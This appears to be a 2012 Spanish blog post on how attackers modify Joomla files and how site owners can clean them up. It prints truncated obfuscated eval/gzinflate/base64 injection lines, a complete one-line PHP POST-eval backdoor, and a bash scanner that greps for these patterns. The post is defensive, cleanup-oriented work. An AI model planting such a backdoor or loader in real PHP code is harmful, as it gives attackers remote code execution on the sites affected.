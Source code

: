 ```yaml
---
title: Como es atacado un sistema Joomla (2º Parte)
date: 2012-06-18
description: Descubre cómo los atacantes comprometen sitios Joomla, los métodos utilizados para modificar archivos críticos y cómo proteger tu sitio eliminando código malicioso y reforzando la seguridad.
author: Francisco Javier Félix Belmonte
image: 'como-es-atacado-un-joomla-2-parte'
category: 'blog'
tags: [joomla, ataques, cms]
isDraft: false
---
```


Si en la [1º parte](como-es-atacado-un-joomla) explicamos cuáles son los métodos de ataque de un **CMS** tipo Joomla o
Wordpress, ahora comentaremos de qué forma es modificado el Joomla y cómo podemos limpiarlo.

Normalmente, los ficheros que se modifican primero son el `index.php`, pero en Joomla también son modificados:

```bash
/index.php
/includes/framework.php
/templates/xxxx/index.php
```

> Donde `xxxx` es el nombre de la plantilla que estamos usando.

Lo primero que tenemos que hacer es buscar en dichos ficheros, tanto al principio como al final, las siguientes
sintaxis:

```php
eval(gzinflate(base64_decode('HJ3HbuvIFkU/5zXAAXMaMkcxi2nywJxz5te33IML+BqwJFbV2XstWZKLM+n/qd5mLPtkL/5Jk60gsP/nRT.......akxUhgBILEQ1AACIJo8Z9///79938=')));
eval(@gzinflate(base64_decode('HJ3HbuvIFkU/5zXAAXMaMkcxi2nywJxz5te33IML+BqwJFbV2XstWZKLM+n/qd5mLPtkL/5Jk60gsP/nRT.......akxUhgBILEQ1AACIJo8Z9///79938=')));
preg_replace("/.+/e","\x65\x76\x61\x6C\x28\x67\x7A\x69\x6E\x66\x6C\x61\x74\x65\x28......hPLidw/nyu/lEf6Xcg24Mhg8Bqov4C'\x29\x29\x29\x3B",".");
```

Estas líneas han sido cortadas por los puntos suspensivos, normalmente tienen más de 1200 caracteres, pudiendo llegar a
24.000, lo que nos hace sospechar de que algo raro pasa.
En una primera limpieza, borraríamos las líneas o sustituiríamos los ficheros modificados por los originales o la última
copia no alterada.

Luego buscaríamos estos patrones en el resto de ficheros y también podemos buscar por fecha de modificación.

Hay que estar atento a los ficheros modificados, porque también pueden incluir una puerta trasera. Y aunque limpiemos
los ficheros o activemos sistemas de seguridad como [**suhosin**](http://www.hardened-php.net/suhosin/index.html) o [*
*mod_security**](http://www.modsecurity.org/), hay que buscar este código y eliminarlo.
(*suhosin permite limitar el uso de `eval`, pero se necesitan conocimientos porque se podría dejar de funcionar ciertas
partes de nuestra web.*)

```php
<?php if ($_POST["php"]){eval(base64_decode($_POST["php"]));exit;} ?>
```

Este fragmento, con un simple `POST`, permite al atacante volver a infectarnos y es difícil de detectar en los registros
del **Apache**.

Como ejemplo, he creado un pequeño script en **bash** para buscar ficheros infectados. Aunque pueden aparecer algunos
falsos positivos, siempre es recomendable revisarlos manualmente:

```bash
#!/bin/bash

malware() {
    find -type f -iname *.$1 | while read file
    do
        a=$(awk 'length($0) > 1020' "$file" | grep -e "base64_decode\|preg_replace")
        if [ "$a" ]; then
            echo "$file"
        fi
        b=$(grep "\$_POST" "$file" | grep -i base64_decode | grep -i eval)
        if [ "$b" ]; then
            echo "$file"
        fi
    done
}

malware phtml
malware php
malware phps
malware php5
```
